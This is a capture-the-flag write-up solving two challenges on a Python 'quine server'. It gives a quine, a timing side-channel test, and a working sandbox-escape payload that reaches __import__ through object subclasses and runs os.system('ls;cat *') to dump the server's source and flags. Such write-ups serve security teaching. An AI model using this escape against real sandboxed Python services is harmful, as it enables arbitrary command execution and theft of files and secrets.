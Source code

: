 # Quineserv (64 pts) & Return to Quineserv (99 pts)

These are two misc-category challenges in one service, solved 20 and 5 times respectively.

>Electric Frankenstein wrote this service. I think it is going a little too far into Gödel Escher Bach if you ask me. But at least it tells you when you accidentally infect the laboratory with a virus.
>challenges.openctf.cat:9006

When connecting to the service we are greeted with a prompt. Let's throw some inputs at it and see what's up:

```python
$ nc challenges.openctf.cat 9006
# 
nothing is apparently a quine, but we don't want this to be that easy.
# ls
Traceback (most recent call last):
  File "./quineserv.py", line 45, in <module>
    exec(inp, {'__builtins__': {'print':mixprint, 'repr':repr, 'flag':''}}, {})
  File "<string>", line 1, in <module>
NameError: name 'ls' is not defined
# print('foo')
Quines win. You lose.
```

So it's a Python service. Apparently it `exec`'s our input with hardly any builtins. But our input must be a quine.
Google to the rescue. We'll need one that's compatible with the available builtins:

```python
$ nc challenges.openctf.cat 9006
# print((lambda s:s%s)('print((lambda s:s%%s)(%r))'))
You win level 1. flag{If only one of us could find the time. adeb4289b6a555}
print((lambda s:s%s)('print((lambda s:s%%s)(%r))'))
```

Yay! **Quineserv** done. But shortly after, **Return to Quineserv** pops up:
>It behooves me to ask you to return to quineserv. I'm pretty sure you didn't actually take from it what was once Electric Frankenstein's. I believe that they thought themselves better than you in placing two flags in the same challenge. One to make you think that you had won, and the other to mock your lack of skill. For the first will become worthless among the fierce competition of hackers, the second, not so much.

The service remains the same. We recall that it executed our input. But we aren't shown the output unless it's a quine. But maybe that's alright:

```bash
$ time (echo '[x for x in [0]*10000000]' | nc challenges.openctf.cat 9006)
real	0m0,712s
$ time (echo '[x for x in [0]*50000000]' | nc challenges.openctf.cat 9006)
real	0m2,609s
```

We're able to leak information. So we could set up something to leak the output of our commands spectacularly slowly. Or we can set up a local testing environment that runs Python3 in the same `exec` context and hope we get it right... Sounds like a lot of work.

But actually, it's gonna be super easy. Barely an inconvenience.

 I had a look in the toolbox. Can we find `__import__` and run a shell to print to stdout directly, before failing the quine check? Yes we can.

```python
$ nc challenges.openctf.cat 9006
# [t for t in ().__class__.__bases__[0].__subclasses__() if 'ModuleSpec' in t.__name__][0].__repr__.__globals__['__import__']('os').system('ls;cat *')
bin           lib           opt           run           tmp
dev           lib64         proc          sbin          usr
etc           media         quineserv.py  srv           var
home          mnt           root          sys
cat: read error: Is a directory
[...]
#!/usr/bin/env python3
"""
Quine server
by Javantea
May 4, 2019

Code execution as a service.
"""
from sys import modules, hexversion
modules.clear()
del modules

flag1 = 'flag{If only one of us could find the time. adeb4289b6a555}'
flag2 = "flag{A Sweet Sickeness, comes over me, I'm looking for something I want. lsUHNel2gLs}"

def sane_input(prompt='# '):
    """
    input(prompt) if Python didn't make python2 input(prompt).
    """
    if hexversion >= 0x3000000:
        return input(prompt)
    #end if
    return raw_input(prompt)
#end def sane_input(prompt)

inp = sane_input()
inp = inp[:1900]
#Dick move: you also have to only use the characters that my solution did.
inp = inp.encode('utf-8').translate(bytes(range(256)), b'')
if inp == b'':
    print("nothing is apparently a quine, but we don't want this to be that easy.")
    inp = b'===='
    exit(1)
#end if
v = ''
def mixprint(*args):
    """
    A print that doesn't do very interesting things. It's kinda similar to print.
    """
    global v
    r = ' '.join(['{{{0}}}'.format(i) for i in range(len(args))])
    v += r.format(*args)
#end def mixprint(*args)

exec(inp, {'__builtins__': {'print':mixprint, 'repr':repr, 'flag':''}}, {})

if v == inp.decode('utf-8'):
    print("You win level 1. {0}".format(flag1))
    v = ''
    exec(inp, {'__builtins__': {'print':mixprint, 'repr':repr, 'flag':flag2}}, {})
    print(v)
else:
    print("Quines win. You lose.")
    #print(repr(v))
    #print(repr(inp))
#end if

cat: read error: Is a directory
[...]
Quines win. You lose.
```

And there it is. Our sweet flag.
